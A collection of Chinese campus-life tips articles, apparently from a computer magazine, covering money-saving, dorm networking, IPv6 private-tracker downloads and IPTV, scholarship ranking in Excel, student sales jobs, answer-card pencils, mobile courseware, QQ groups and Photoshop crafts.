Graceimagine：现在我周围的同学流行网络记账，网络上也有很多由记账而发起的节约省钱的活动。我慢慢养成每日记账的习惯，真是不记不知道，一记吓一跳，要节省啦。

Pal：以前很少计算每月花多少钱，自己的钱都不知道哪里去了。开始记账以后，我通过图表能直观地看到每月的支出金额。如果月中发觉本月的消费比较高，快超出了每月的平均额，本月剩下的时间就会有意识地控制消费。

## 小提示：校园生活省钱秘技

* 校园网太慢？使用代理软件、迅游、汉魅之类的加速效果就很好。VIP包月才20元，而去网吧消费一天就没了。
* 小两口电话费太贵？办理集团号，手机轻松变对讲机。不住在一个城市不要紧，用QQ语音或skype代替长途电话效果也不差。
* 谈恋爱了花销突然增多，两个人平时在学校买的东西不如集中去超市大采购，能省下不少零花钱。
* 去必胜客等快餐店打牙祭之前先去网上下载优惠券，有券在手，实惠多多。

父母赚钱供

## 大学新人宿舍组网全攻略

开学了！新人们即将迈入大学校园，崭新的环境、精彩无比的大学生活正在等待着你们来探索。话说这信息时代怎能少了互联网，到了学校要做的第一件事儿，当然是要给咱们的宿舍通上网，可是这问题就随之而来了，网络该怎么架设呢？网络设备的选择又有什么门道呢？各位新人们，甭发愁，快听学长来聊聊宿舍组网的那些事儿。

## 校园网 & 自装 ADSL，向左还是向右

宽带的普及，让大家已经习惯了高速的网络生活，但是到了大学校园里，情况有变！尽管高校逐年增加在校园网建设上的投入，但带宽、容量有限的校园网并不能够满足全部同学的要求，为了保证校园网的正常运作，大多数学校采取了限制带宽、屏蔽P2P下载、按流量计费等一系列手段，所以，原本就不“阔绰”的校园网日渐“步履蹒跚”，在假日、晚间等高峰时段尤甚，因此越来越多的大学生们选择了自装ADSL宽带的方案。
校园网和自装ADSL宽带又各有利弊：校园网拥有极为丰富的内网资源，许多学校提供的FTP服务器上有最新的软件、电影，各学校的图书馆也都采购了中国知网、万方等数字化期刊库，在那里可以找到大量的电子化期刊、文献和论文，泡图书馆查资料的日子一去不复返。加之近几年来的IPV6在高校的测试运行，校际间的资源共享和交换比以往更加便利。不过，通过校园网对外网的访问却始终不尽如人意，ADSL宽带则具有稳定、无限制的特点，无论任何时段都可保证流畅的在线影音和游戏体验，但其在资源的获取上与校园网相比并无优势，影音资源需要自行寻找下载，期刊数据库也必须付费获取账号才可访问。所以，很多大学的宿舍中出现了“视频游戏上宽带，论文电影找校园”的独特风景。

## 巧选组网工具，共享网络更便利

宿舍的网络资源如此丰富，我们都等不及了！究竟该选择哪种工具来共享网络呢？
如果选择的是校园网，一般情况下要选用集线器或交换机（4口的40元左右）；加装ADSL的同学们就一定要买路由器才能实现共享上网哦！路由器分为有线（4口的80元左右）和无线（150元左右）两种，使用无线可在无线网卡的帮助下摆脱恼人的网线束缚，在不少宿舍非常流行，因为是宿舍几兄弟凑钱买，路由器也贵不到哪去！
路由器也可以用在校园网里，但在部分学校要关闭DHCP功能，否则可能会影响校园网的其他端口联网，小心管理员封你的端口，呵呵。

## 小知识：

集线器发送数据效率最低，容易产生信息拥堵，而且数据安全性不高；交换机比集线器先进，允许设备间并行通信，不会发生冲突，同时是并行带宽，互不影响；路由器的武艺最高强，可以把数据从一个网络发送到另一个网络，通过软件实现防火墙等高级网络功能，效率更高也更安全。

## 操练起来，布网设置实战

在校园网中，集线器和交换机的安装非常简单，先将宿舍的网口与集线器或交换机的任意接口连接，再用网线把宿舍的电脑逐一与集线器或交换机连接起来，宿舍里的兄弟们就能同时上网啦！
通过路由器共享ADSL，则需要进行相应的设置。安装ADSL时，电信运营商会为我们免费提供一台MODEM用来拨号，将MODEM的LAN口（局域网接口）用网线连接至路由器的WAN（广域网接口），路由器上有文字标示。
接下来，将电脑的网卡口与路由器的LAN口用网线连接。以TpLink R402M路由器的设置为例，打开浏览器，在地址栏输入“192.168.1.1”，回车进入，输入默认用户名和密码，进入路由器的管理界面（路由器的管理地址、默认用户名和密码可能会因生产商的差异出现不同，具体请参看路由器的说明书）。如果你是用的是无线路由器，那么还需要设置网络密码，来防止你的宽带网被别人“蹭用”！
看过攻略，你是不是已经对宿舍网络的布设有了自己的想法呢？赶快动手接通网络世界，享受信息化带给咱们的便利吧！不过要记得合理使用，切忌沉迷网络，千万不要错过了大学里的精彩生活！

(北京/刘家艺)

## 男女有别的电脑

男生和女生的不同体现在方方面面，本期校园侃侃堂来关注一下男女生在电脑上的不同！

## 外观

* 女生的小本一般都挺秀气的，颜色比较鲜艳的也不少，似乎用索尼、惠普、三星的多。
* 据我观察，不少性格比较“爷们儿”的女生电脑也是很“爷们儿”的……
* 宿舍老大老二的本本键盘里有各种食物的残渣，老三老四没有，因为被女朋友打扫了。
* 女生的电脑很漂亮，有各种装饰物，于是在夏天很容易过热，于是乎给了众多男生众多的机会。
* 女生的电脑老是坏，男生的嘛，老是脏。

## 桌面

* 男生的桌面是美女，女生的桌面是帅哥！男生的桌面是体育明星，女生的桌面是娱乐明星。
* 很多男生都抱怨桌面太小，没地方放东西。太乱！爱收拾的女生桌面自然比较清爽。

## 游戏

* 男生玩的多是魔兽世界、魔兽争霸、CS之类，女生玩的多是连连看、找茬、对对碰之类的。不过我也在自习室见过女生玩拳皇的，汗。
* 从键盘不同键的磨损程度，可以看出经常玩的游戏是什么，W、A、S、D都被磨掉了。
* 很多男生都喜欢用专用的游戏鼠标，微软、罗技的很多，手感一流；而女生大多都是原配的鼠标，虽然也有不少是罗技的吧。
* 男生的电脑是游戏机，女生的电脑是电视机。

## 内部

* 有一个男女通用的规律：配置和外观成反比！男生的配置一般比较高，而且看重性价比。女生嘛，如果预算有限，为了保证外观，配置能降就降。
* 闲着没事，我就把机器拆了，清理一下，既能不无聊，又对电脑有好处。不像懒洋洋老兄的电脑都是灰，弄点灰绝对是够了。
* 我拆过一些女生的机箱，里面的灰绝对不比男生的少。外面干净和里面干净没什么必然联系。

(北京/林锐组织讨论)

## 校园个性纪念扑克DIY

时值高校各类社团换届，经历了一年的风风雨雨，成员们共同见证了一路走来的辉煌，彼此之间建立了深厚的友谊。离别之际，纪念品成为加深彼此情谊的不二选择，个性纪念扑克制作简单、成本低廉又有娱乐价值，实在是个好主意！

## 方案一：淘宝店扑克定制

在淘宝上有不少能够制作个性扑克的店铺，经验丰富，专业可靠。挑选店铺时，要注意扑克的价格、质量水平、店铺信誉度、邮寄价格等因素，沟通过程中要注意掌握主动权，让店主在合理的价格上尽量满足自己的要求，如试看效果等。
跟店家沟通好之后，就可以准备扑克素材了。图片尺寸、分辨率都有较为严格的要求，可以多征求店家的意见。还要将不同的照片对应到不同的扑克牌上，这就要考虑到一定的排序问题，比如大小王最好用全体成员合照，花色大小排序为黑桃、红心、草花、方块等等。在设计背面以及外壳时，可以在扑克背面以及外盒的设计中大量使用社团LOGO，加入更多的社团共有元素，很有亲切感。

## 方案二：利用扑克软件自己做

淘宝店制作的扑克风格大都类似，如追求个性，可以尝试完全DIY制作。
“扑克牌DIY系统”（下载地址http://www.onlinedown.net/soft/57728.htm）是不错的免费软件，操作方便，打印灵活，很容易掌握。软件内含有一整套的扑克牌模板，根据自己想要的独特效果，通过简单丰富的图片插入、图片处理与文字编辑（见图1），即可实现一张扑克牌的制作。软件还支持照片导出，单独制作一张带有自己照片的扑克牌导出为JPG格式的图片，可以上传到论坛中展示，作为签名图片、头像等等。
还有一个免费的软件“个性扑克梦工厂”（下载地址：http://work.newhua.com/cfan/200922/MyPoker.rar）也非常实用，安装启动后，可以设置正面底纹、边框、牌号、背面图案、牌盒封面等（见图2），插入图片、调整，就可以保存、打印了。
到打印店可用名片纸打印，然后用切卡机切开，经过热塑封膜等处理后，一付个性十足的扑克牌就完成啦！

(华北电力大学/史鹏飞)





## IPv6，我最in的校园专网

几年前，当人们意识到现有TCP/IP协议存在的诸多问题的时候，一个新版本的TCP/IP协议被提出，被称为IPv6（Internet Protocol Version 6）。在未来若干年IPv4将逐渐被IPv6取代。在中国，这一切正悄然发生在大学中……

新生：学长，听说IPv6不错，下载和看网络电视速度飞快，这个网和原来我们用的有什么区别啊？快教教我怎么用吧！

学长：我先跟你说说什么是IPv6。由于协议版本的转换，IPv6需要对网络改建或者新建，所以速度会有很大提升。现在IPv6还处于实验性建设时期，部分大学和科研单位开通IPv6网络。IPv6将一百多所大学的网络资源整合到一起，而且传输速度一点都不比原来校内网络慢。当然，IPv6不仅仅是为了资源共享，网络电视、视频点播都是大学生非常喜爱的应用。

## PT下载：海量资源飞速下

新生：给我介绍介绍下载吧，听你说得我都痒痒了。

学长：别着急，我慢慢教你。使用IPv6如何进行BT下载呢？要先找一个支持IPv6的BT客户端软件，现在新版的uTorrent（下载地址：http://work.newhua.com/cfan/200918/utorrent.zip）都是支持IPv6的；然后去论坛寻找资源，这里以IPv6 BT网站中最具影响力、人气最旺的网站之一的六维空间为例（http://bt.neu6.edu.cn）。
目前六维空间注册需要邀请码，可以到网站“游客地”中求一个，或者向好友索要，成为正式会员之后，首先要了解各版规，掌握基本使用方法，比如uTorrent的使用方法，做种的方法等等。遇到问题可以在“六维互助”区发帖咨询；想试验做种，可以在“新手试种”板试试。由于六维空间下载是积分制，用积分下载自己喜欢的资源，因此赚取积分是最重要的。赚取积分的办法很多，其中上传资源是赚取积分的主要途径。下载置顶资源是不需要积分的，所以通过上传已下载的置顶资源是赚取积分的最有效的途径。完成“论坛任务”，应求他人的悬赏，参加有奖活动，水区灌水也可以获得积分，当然发布自己的资源和别人共享也可以获得积分，这也是BT精神最鼓励的行为。有了足够的积分，就可以尽情下载自己喜欢的资源了。这里的高清资源非常丰富哟！

站长有话说：借用一句歌词，“与你分享的快乐胜过独自拥有！”

### 小知识：

六维空间采用的PT模式，PT（Private Tracker）下载是一种小范围的BT下载，通过禁用DHT有要求地选择并控制用户数量，这样在有限的范围内，下载的用户基本上都可以达到自己的宽带上限。PT下载还通过论坛等方式的约束机制将BT下载的理念现实化，真正让用户做到下载的过程中努力上传。

## 网络电视：精彩节目等着你

新生：今儿晚上有球，我想看直播，可这宿舍没电视，网络电视能派上用场了吧？

学长：这IPv6的网络电视和真正的电视区别不大，比平时用的网络电视强多了。
日常所使用的网络电视的清晰度一般都不高，而且延时严重。但基于IPv6的网络电视则彻底解决了这两个问题。由于IPv6网络传输速度非常高，就可以用较大的码率保证清晰度，还可以缩短缓冲时间减少延时。IPv6的网络电视的画面效果和电视画面的效果区别不大，并且延时只有十几秒，相对于电视直播的“30秒技术延时”，这并不算长。有个软件RabbiTV集合了主要的IPv6网络电视资源，在软件的电视列表中，有上百个频道可以选择，基本上包括了有线电视的所有主要频道。软件虽小，但功能还是比较丰富的，提供录制功能（需要使用Realplayer等软件配合实现）。下载地址：http://work.newhua.com/cfan/200918/rabbitv.rar）

新生：你说的我都明白了，可我怎么打不开你告诉我的网站啊？网络电视也打不开啊？

学长：你一定是用的XP吧？你要先安装IPv6协议才可以。
在Windows XP中如何添加IPv6呢（Windows Vista和Windows 7系统默认自带）？在“网上邻居”属性中打开“本地连接”的属性，依次点击“安装→协议→添加→Microsoft TCP/IP版本6→确定”。如果在安装过程中弹出对话框，提示“未能添加要求的组件。错误是：出现了扩展错误。”，请先进行如下的处理：依次点击“开始→运行”，输入“cmd”，回车，在弹出的命令行窗口中输入esentutl /p%windir%\security\Database\secedit.sdb，回车，在弹出的提示对话框中选择“确定”，完成后重新进行IPv6协议的安装。

### 网络大补贴：

#### 不错的IPv6 BT下载论坛：

- 乐乎BT：http://bt.shu6.edu.cn
- 北邮人BT：http://bt.byr.edu.cn

#### 不错的IPv6网络电视资源：

- 上海交通大学IPv6试验站：http://video6.sjtu.edu.cn
- 北京邮电大学iptv：http://iptv.bupt.edu.cn

新生：IPv6用着真爽，上大学就是好啊！
学长：别忘了好好学习，上大学不是来玩的！
（北京/林锐）

## 教你绝招，把奖学金放入荷包

金秋时节，奖学金开始评定了！奖学金披着神秘的面纱，大学新人们伸长了脖子，瞪大了眼睛，也还是雾里看花。好在CFan为大家寻找到了一位连年斩获奖学金的牛人师姐，听她带来的权威解读，为你拨云见日！

### 奖学金有啥用

奖学金，重要？不重要？如何看待这个问题？让我们先来看看奖学金到底意味着什么。
奖学金的直接好处当然是能拿到奖金。奖学金的名目众多，金额也不等，最高级别是国家奖学金，与之平行的有国家励志奖学金，主要奖给成绩优异的贫困生；其次是学校级别的奖学金，也就是常说的专业奖学金，分一等和二等，有些学校还设三等；再次是各个学院设立的奖学金，一般金额较小；此外还有来自社会支持教育事业的企业设立的高校奖学金。
从长远来看，奖学金与保研直接挂钩，能够连年拿到奖学金且成绩排名靠前的学生理所当然是被保研的对象，对保研起作用的奖学金只有国家奖学金和专业奖学金，想保研的同学，可要盯准目标了哦！
除此之外，奖学金是你的学习成果和学习能力的最好证明，即使毕业了要去找工作，也是简历上的一道风景！

### 奖学金怎么拿

奖学金不是简单地根据期末成绩发出去的，它是留给有心人的，你得提前策划，步步为营。
如果你对这块儿蛋糕垂涎三尺，那么得做好万全的准备，开学时就要提前打探消息，通过校园信息网、论坛、贴吧等各种途径，了解奖学金评比的游戏规则，并牢记在心中，作为学习和工作的目标，有的放矢。各校评奖学金大体上都是以学习成绩加综合测评的排名为依据，只是两者所占比重和综合测评范围上有一些差别。
有些大学新生依旧勤奋刻苦地学习——上课认真听讲，下课认真做作业，天天泡图书馆，过着高三一样的生活，让我们对此类同学表示最崇高的敬意，但是仅仅这样就一定能得高分吗？答案是否定的！想拿到期末考试的好成绩，其中自有小的方法和技巧，但绝对与高中的机械式学习不同。

### 奖学金科学算

做好了这些学习任务上的准备，剩下的就是积极参与评奖的过程了。奖学金一般是一年评一次，评选时间是在第二年新学期开学，所以关注奖学金评选的同学要注意掌握最新动态，及时查询自己的成绩。



提前给自己列好加分项的清单，如果有电子版的成绩单，那Excel就可以大显身手了。咱来自己评选一次奖学金：

第一步：拿到如下图所示的成绩单，奖学金如果规定成绩与素质测评分数占总评成绩比例为60%和40%，那么在I2列中应该输入下列公式“=SUM(C3:G3)*0.6+H3*0.4”；

第二步：按照总评成绩排出名次可以应用RANK函数，在J2列中输入“=RANK(I2,I2:I8)”；

第三步：如果一等1人，二等2人，三等3人，那么在K2列中输入“=IF(J2<2,"一等奖学金",IF(J2<4,"二等奖学金",IF(J2<7,"三等奖学金","")))”，谁拿到什么奖项马上一目了然。

由于涉及个人利益，在评奖学金的过程中难免与其他同学发生冲突，这时就需要放平心态，既要维护应得利益，更要尊重规则，尊重对手。加油！

### 下面提供几点超实用秘技：

#### Tip1：让你的老师认识你，尤其是选修课和没有笔试的科目。

大学里，影响老师给分的因素很多，除了看卷面，“人情”也是很重要的考虑因素，是因为大学里一个老师往往要教几十甚至上百的学生，如果你能跟老师有私底下的交流，让老师认识你，能留下一个好印象，认为你是积极上进、把学习放在心上的学生。所以，如果想获得点儿勤奋之外的意外惊喜，起码跟老师混个脸熟，最好的当然是“名字熟”喽。

#### Tip2：重视考试月和考试周的复习。

大家平时的学习情况相差不大，拉开差距的往往是最后一个月，甚至是最后一周的复习情况。找老师拷贝课件，找牛人同学借笔记，这都是必备的工作。再者就是考前的信息收集，在最后一段复习时间里多和老师、上届师哥师姐、班上成绩好的同学交流，掌握好QQ的群聊和私聊，不断吸收最新信息，借此推测命题思路，确定自己的复习方向。

#### Tip3：重视考场发挥。

如果咱确实没有料，起码装一装，要能唬住人。尤其是文科生，尽量多答一些，从多个角度思考问题。若不能给出一个确定的答案，起码要含蓄地告诉老师：虽然这个问题我不会，但是我在努力研究它，期末考试时马马虎虎答完题就提前交卷的学生，一定不是能拿到奖学金的学生，所以请在考场上倾你所有！
（北京/杨蔚）

## 玩转手机 非一般省钱

和家人通话，与老同学联系，处理社团工作、联系兼职实习……积少成多的话费难免会让没有固定收入的大学生囊中羞涩，省钱才是硬道理！
首先了解各种套餐的特性，加入动感一族，还是up新势力等等？买普通卡还是买情侣卡（连号套卡，持卡双方可以较低月租实现长时间免费通话或大量免费短信）、长途卡、短信卡等一些特殊卡？淘宝上不同地区，不同类型的手机卡折扣不小，普通卡丰富的套餐一般都可以满足需求。

### 短信狂人

包月多少短信都不够发，短信费用比通话费还高的你，可以通过飞信联合PC发送信息，免费的哦！同时还可使用飞信语音功能代替手机通话，有些省份的卡包月短信条数很多，如果你正好用的是双卡手机，多一张短信专用卡是个不错的选择。

### 煲电话粥狂人

动感地带长途通话加拨17951、神州行加拨12593、联通加拨17911可以省钱不少。套用IP卡拨打更省钱，一张50元的17951IP卡30元不到，按卡面每分钟0.3元算，相当于每分钟长途费为0.18元。北京动感地带发送KTIP1000到10086，5元包月能打1000分钟国内长途，只收市话费。如果你的通话对象很固定，赶紧设立亲情号码吧！如果两人都在电脑前，就QQ语音吧，钱就是这样省出来的！如果你常到外地找老同学“串门”，别忘了开通漫游优惠计划。

### 冲浪狂人

手机上网方便快捷，但按流量计费实在奢侈，不怕，有GPRS包月服务，一个月5元包月费就足够了；若还不够，可咨询运营商客服，申请包年业务，包得越长，省得越多。将网络端口设成cmwap、关闭图片功能，下载UC、Opera等手机浏览器而不使用手机自带浏览器，都是节省流量的好办法。一些套餐兼顾了大学生短信、通话、上网综合需求，如上海的动感地带网聊套餐（校园版），26元包括160条短信、50M移动数据流量、3小时WLAN无线上网时间，本地通话0.1元/分钟，接听免费，送来显、彩铃、来电提醒、139邮箱免费版、飞信，挺实惠。

### 小提示：掌握以下技巧，省之又省

- 定时关注手机账单，分析短信、通话量，寻找最适合自己的套餐；话费出现异常流失时及时拨打客服电话咨询，取消不必要的服务。
- 移动动感、联通用户积分达到一定程度可换取奖品（见图）。动感用户发送“MCX”至10086可查询积分，联通用户拨打10011，还可登录网上营业厅查询积分。
- 关注官方最新优惠信息，各地运营商节日期间充值送手机、送话费、送明星演唱会门票等优惠活动信息也都会在网站上发布。有时有专门的校园促销活动，如广州的同学可以到广州移动官网的校园专区看看http://www.gd.chinamobile.com/guangzhou/others/school。

## 大学校园IT代理，看我的

大学生从事兼职无非是想增长社会阅历，锻炼自己，丰富个人的简历，满足现在企业在招聘毕业生时要有工作经验的要求。我的四年大学生活是丰富多彩的，学生会工作三年，社团工作两年，创建两个校级社团，连续四年参加暑期实践活动，同时做着各种校园代理，在这期间积累了不少经验，与大家分享。
建议大家大一时暂时不要考虑去做兼职，应该认真学习基础知识，同时要对身边的社会有了一定了解。比如留心注意一下学校周边有哪些店铺，有什么类型的，最近有没有刚开业的，逛店的时候可以跟店铺老板聊几句，真诚相待，老板通常情况下会把自己的社会经验与你分享，通过这种方式慢慢拓展自己的人际网络，积累社会经验。走进大二、大三，学习成绩优秀的你就可以考虑慢慢进入社会，因为现在的你已经积累了一定的社会经验，具有一定辨别是非的能力。应该做点什么呢？

### 校园卡销售

新生入学是移动、联通等校园手机卡的销售旺季，也是校园里比较常见的兼职方式，耗费时间少，利润高。拿卡渠道是限制很多校园营销经理的主要问题，因为新生入学之际商家要更快更好地占领校园市场，所以只要主动去找运营商，这种请求一般不会被拒绝。
作为校园代理，必须承担风险，可以采取发展下一级代理的方式，建立营销团队，实行绩效考核，根据代理的销售情况给与相应的奖励。比如说作动感地带的校园代理，卖卡每张可以拿到20元提成，业绩好的话卖30张卡，赚600元；如果发展20个代理，每人卖20张卡，总共可以卖400张卡，每张给他们提成15元，自己最终可以赚2000元（经实践开学一个月确实可以实现这个目标，直接到学校附近的移动营业厅找推广负责人即可，学校的公告栏也会有各种招聘代理信息，多多关注哟）。

### 小提示：代理通信业务前，最好把这些搞清楚

通信运营商在校园里的竞争日益激烈，各大通信运营商推出自己的即时通信业务——联通超信、网通灵信、电信天翼live和移动飞信。移动飞信很方便，但不能加联通和电信用户为好友、发信息；电信推出天翼live，可向移动、联通、电信等用户发短信，但电信卡只能使用天翼CDMA手机，而该手机不支持移动和联通卡，所以电信的业务要打开校园市场还比较难。此外，回拨卡对于爱打长途的学生很实惠，做代理一定要找稳定的服务提供商，否则售后会很麻烦。
3G无线上网卡在校园里有一定的市场，但信号不太稳定，所以做这方面的代理不太推荐。

### IT产品代理

首先从校园市场的需求出发选择代理产品；选择的供货商要有良好的信誉，能保证产品的质量，可以进行退换货，压低成本价；还要选择合理有效的宣传渠道，迅速打开校园市场，本着对同学负责的态度和薄利多销的原则进行产品销售。
看看其他同学的经验，你是否得到更多的启发？

西北师范大学 小聂

刚开始我在学校毕业生的跳蚤市场上试卖键盘、鼠标、闪存盘等IT产品，销路不错。后来我通过兰州大学城的网络销售平台开网店卖IT产品，从电脑城的实体店拿货，没有进货成本，生意不错。开网店也不影响学习，好的话每周能有200元利润。
建议大学生购买电脑不要只身一人前往电脑城，容易成为JS的目标，一个配件多几十元，攒一台机器下来要吃亏不少。找一两个懂行的师兄会安全很多。

北京理工大学珠海分校 耿茂峰

我一个朋友开了个实体电脑店，我在学校通过发传单、名片等做宣传，帮同学做攒机咨询，以良好的服务和售后赚取折扣，一般一单生意能到100元左右的回扣，但我拿到的价格比同学自己去电脑城买低多了。

### 培训招生

考研培训代理是低投入高回报的兼职方式，但需要广泛的人际关系网和较强的执行力。考研培训招生走的模式很多，其中比较有效果的是发展代理，发展将要考研的学生，这些代理就已经成为潜在客户，不会去选择其他考研培训机构。考研报班有扎堆趋势——宿舍团报和班级团报，所以代理会影响到身边的人选择考研辅导班。此外，北大青鸟、新东方等连锁培训机构对代理也有不小的需求。

### 校园中介

相对来说，校园中介是高利润高风险的校园兼职方式，通过介绍兼职工作等方式收取中介费赚钱（家教中介费最高，可达200元/次），从学校公告栏、校园论坛等途径可获得招聘信息。为公司寻找兼职工时，中介不仅可以从学生手里收取一定的中介费，同时可以拿到公司给予的辛苦费。做中介最大的风险是不能按时发放工资和兼职同学的安全问题，所以联系公司时一定要了解公司的信誉，对公司的招聘信息一定要核实清楚。在做中介过程中，会出现公司委托代理公司进行招聘，代理公司再找校园中介，这时中介不仅需要核实代理公司的资质，同时与实际的招聘公司取得联系进行确认。
寻找兼职岗位时，若公司要求交一定的押金要慎重，国家明令禁止在招聘过程中以任何名义收取费用，包括培训费等，但凡要求缴纳费用的都应该警惕，但凡学历要求过低而酬薪过高的要注意。
大学生在校期间能做几份不同的兼职工作，是非常好的选择，可以提前体验一下社会，积累一些经验，为自己将来毕业找一份稳定的工作打下良好的基础。有激情，有魄力，抓住机遇，做好每一件小事情，必能成就大事。

## 2B铅笔的演讲

2B铅笔：大家好，我是你们考试时最值得信赖的朋友……
观众：枪手吗？作弊器？
2B铅笔：想啥呢？我是2B铅笔！今天我来给大家介绍我的大家庭。
先讲讲我们家族兄弟的区别，这个大家从表面是不容易看出来的。要看铅芯，我们的铅芯由石墨和黏土混合加热制成，黏土越多，铅芯越硬，反之则软。你们看到的标号B=BLACK（黑度），H=HARD（硬度）；B数越多就越黑越软，H数越多就越硬越浅。我有10B、9B、8B、7B、6B、5B、4B、3B、B、HB、F、H、2H、3H、4H、5H、6H、7H、8H、9H、10H等兄弟，它们的软硬浓淡请大家按上述原理自行分辨。


观众：为啥填答题卡非用你啊？
2B铅笔：这个嘛，得从读卡机说起。现在使用的读卡机主要有两种，一种是红外读卡机，它通过红外线感应石墨浓度和涂黑面积识别答案，我填涂的石墨浓度最合适，不像H类铅笔那样淡，也不像更软的B类铅笔那样容易污染答卷和机器；另一种是光电读卡机，基本原理是发光电子器件发出的光照射在答题卡的信息位上，如该信息位被涂黑则部分光被吸收，反射光变弱，反之反射光变强。光电读卡机对应的接收管将强弱不同的光信号转变成电信号，再经转换、数字滤波、模式识别后完成对答题卡中字符的识别。H类铅笔太硬易戳破答题卡导致透光，而我就不会。相对于其他B类铅笔呢，我最大的优势是便于擦净，防止光电读卡机误判。观众鼓掌对答案表示满意。
2B铅笔：现在有请2B方队列队表演，展现飒爽英姿！（2B铅笔列队上台，正步向前）
喂！那些笔芯歪的、外层漆面颜色不同、编号模糊的、削出来木材泛白的，还有断面不整齐的！都给我出来！全都是假冒伪劣产品！你们给广大考生带来多大危害自己知道吗？读卡机对假劣2B填涂的答题卡识别率最低达87%，意味着有13%的内容即使考生全部答对，也会被电脑误判为错误。也许正是因为这几分之差，考生的命运就会从此改变！
观众对2B的慷慨陈词点头赞叹。一队排列整齐的正品铅笔经过台前，台下掌声雷动，演讲圆满结束。

## 使用LMA，移动设备随时给知识“充电”

随着3G时代的来临，大家的智能手机等智能终端设备不断增多，移动学习，随时随地给自己充电成为一种时尚，使用手机上网直接充电吧，上网需要不小的花费。还好，有了LMA，我们可以给自己编写学习课件，实现移动学习！



### 第一步：学习资源的搜集
自己给自己编写学习课件，可不能委屈自己了，起码要实现图文并茂。因此，首先要搜集学习相应的学习资料——包括图像、声音、视频格式。网上还有很多Flash格式的文件，这些LMA全部支持。由于移动设备的处理速度比较慢，搜集的资料不宜过大，如有Flash格式的资料替代，就尽量减少视频文件的使用。

### 第二步：启动LMA，添加学习资源
启动LMA后，窗口分为3个部分：左边的是文件结构区Structure，可以查看整个文件的结构。在这里，我们可以把全部资源加入。右上边是预览效果区Preview，在这里可以选择不同的模拟器对学习内容效果进行模拟显示。右下角是编辑区域Edit，在这里可对学习内容进行编辑。

### 第三步：学习内容的编写
使用左边的结构窗口，可以进行学习内容的编写。单击New page1 with Image，进入学习内容的设计，使用右键可以反复添加学习页面。别忘了在这里添加Flash等多媒体学习资料呀。

### 第四步：测试内容的编写
点击Test Page1进入测试内容编写。

### 第五步：学习内容的发布
学习内容设计完成后，在Tools菜单中可以打包生成常见的移动媒体格式，包括Palm， JAR， HTML， WAP， Pocket (Windows Mobile系统) 等，根据自己终端的类型自行选择。打包之后一定要看看文件的大小，如果太大可能会出现播放困难。因为Java语言的跨平台特性，目前大多数手机都支持Java，所以生成JAR格式后，应用范围非常广泛。把打包后的文件通过数据线拷到手机上，即可实现移动学习。好好享受你的移动充电乐趣吧！

> **小知识：**
LMA是Learning Mobile Author软件的简称，由大名鼎鼎的移动软件开发商Hot Lava设计，大家可以从http://download.cnet.com/Learning-Mobile-Author/3000-2064_4-10862598.html?tag=mncl下载评估版的软件，评估时间为14天。登录http://www.daydaymobile.com/ (上海交通大学的移动学习网站) 等，可以获得不少免费的学习资源。
(河南工业职业技术学院/赵建超)

## 班级资源共享的小天地

你的班级有QQ群吗？除了聊天，你是否想到这里还是非常不错的资源共享天地呢？

### 班级通知：公告与群邮件
QQ群有自带的群公告功能，很多通知都可以通过管理员写在上面，十分醒目，班级大事一目了然。群邮件更是可以把公告直接通过邮件发给群里的各个同学，避免了就算是群公告也会有人看不见的尴尬。群邮件还有投票功能和不停回复，每回复一条都会让所有群成员收到。默认的群是不开通群邮件的，打开方法也很简单，进入QQ邮箱的群邮件里面选中该群点击“开通”或“邀请管理员开通”即可。
如果你觉得群邮件太频繁，就需要进行设置屏蔽。一是可以在群邮件中右方的群列表中的群名称后面有“拒收”二字，在相应的群后点击“拒收”，就会完全屏蔽此群的群邮件。可是大多数的班级群邮件还是有用的，怎么办？在邮箱中点击“设置→群邮件管理”后，把最下方“将新回复的群邮件显示成新邮件”那项取消勾选，就可以接收到所有的班级群邮件，即使是没有用的邮件，也能一略而过，不会再收到讨厌的各种回复。要看群邮件的新回复，再到邮箱去查看就可以了。

### 丰富的资源：校友关联QQ群
腾讯最近开通了“校友”，我们也可以在QQ校友中选择学校，创建班级，然后将班级关联到班级的群，这样就另外开通了班级群的很多功能，其中包括可以使用班级通讯录和使班级群的群共享空间变为1G，并且在群公告上面可以显示同学们的QQ空间动态和临近生日的提示。对于那些没有升级的QQ群，通过校友录来让自己的群更加快捷，真是方便极了！

### 班级照片：群主页和群相册
在群相册中可以上传一些集体照，上传后，照片就可以在群公告的那个模块显示，在群相册里放进过去同学的可爱照片，没事儿随便翻翻，或感慨，或偷偷乐吧！

> **小文档：群共享**
QQ群中，还有一个类似于网盘的东西，这个是群内所有同学都可以访问的一个网盘。大家可以在这个网盘中存放一些东西，例如学习用的资料共享（作业中的试卷答案、老师的电子课件等），或者同学们在KTV唱歌用手机、DC拍下的可爱视频。不过这个网盘只有区区16MB，放几个文档还是绰绰有余的，如果想放进去更大的文件，还是需要管理员是QQ会员并且将QQ群升级为高级群才可以升级空间，并且存放只能保存将近半个月。
(大连市第12中学/徐铭聪)

## 校园小物件PS一下，效果大不同

用课本、眼镜盒、纸条等来占座，不仅威慑力不够，而且容易丢失，何不自己设计占座牌？心爱的课本经常用，磨损避免不了，何不制作个性书皮包起来？在宿舍睡觉时有同学来串门，何不制作个免打扰牌？宿舍门牌、明信片、书签……开动脑筋PS，一切尽在掌握！

### PS占座牌
彩印费两三元搞定，用硬纸壳折叠成支架（可用牛奶箱、快递包装等材料，直接用废旧台历也行），用胶水贴上打印纸，一个富有个性和威慑力的占座牌就大功告成了。

通过PS创建大小合适的画布，然后拖入个性化背景，调整到合适大小，再用“文字工具”输入：“温馨提示：座位主人即将凯旋哦！”，“各位大虾见谅，座位已寻觅到心爱的主人”等等（见图1）。



Word制作占座牌就更容易了，输入文字，对字体进行个性化设置，还可以插入图片来设置整体背景，或添加文字背景等（见图2）。

### PS免打扰牌
正在宿舍熟睡中，不想被打扰怎么办？快找PS解烦恼！添加背景，输入免打扰文字（见图3），背景和文字颜色对比鲜明一些，防止走廊光线不足。存储、打印、粘贴，剪出水滴等形状，在上面打个小孔，用线挂在门把手上就OK了。



### PS书皮
PS还可为书本包装带来意想不到的效果。颜色和图案都可进行个性设置。

> **小提示：**
书皮打印纸应该厚一些，如铜版纸等。书皮要比书大出一圈，如何设置呢？比如当下许多书是16开（与《电脑爱好者》大小一样），16开是18.5厘米×26厘米，A4的大小是21厘米×29.7厘米，A4比16开大一些，那么书的封面+封底是16开的2倍，所以书皮选A4的2倍，也就是A3（42厘米×59.4厘米）比较合适。这个数值在PS新建画布时直接输入即可。一般能进行喷绘的打印店可以打印大幅面的纸张，大约三四元钱，而小打印店条件有限的话，把封面、封底分别打印在一张A4纸上，最后用透明胶带粘贴起来再包书就行。
